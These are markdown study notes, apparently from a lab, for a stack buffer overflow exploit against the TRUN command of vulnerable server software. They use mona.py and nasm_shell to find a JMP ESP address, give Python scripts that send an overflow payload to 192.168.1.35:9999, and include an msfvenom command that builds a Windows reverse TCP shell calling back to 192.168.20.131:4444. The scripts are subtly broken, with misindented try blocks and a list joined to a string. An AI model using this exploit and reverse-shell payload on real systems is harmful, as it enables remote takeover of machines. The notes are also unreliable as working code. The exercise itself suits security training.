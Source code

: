 
### Finding the Right Module

* look for module in google and get the mona.py

* ```locate nasm_shell ```

* nasm_shell

```nasm_shell.rb 
nasm > JMP ESP
0000000 FFE4
```

* 
```python3
#!/usr/bin/python
 
import sys, socket

#625011af

shellcode= "A" * 2003 + "\xaf\x11\x50\x62"
    try:
        payload = "TRUN /.:/" + shellcode
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(shellcode)))
        s.send((payload.encode()))
        s.close()
        
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(shellcode)))
        sys.exit()
 ```

* execute the script


### Generating Shellcode and Gaining Root

* generate the shell code

```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.131 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00" ```

  * copy the code
  
*
```python3
#!/usr/bin/python
 
import sys, socket

overflow = [""]

shellcode= "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow
    try:
        payload = "TRUN /.:/" + shellcode
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(shellcode)))
        s.send((payload.encode()))
        s.close()
        
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(shellcode)))
```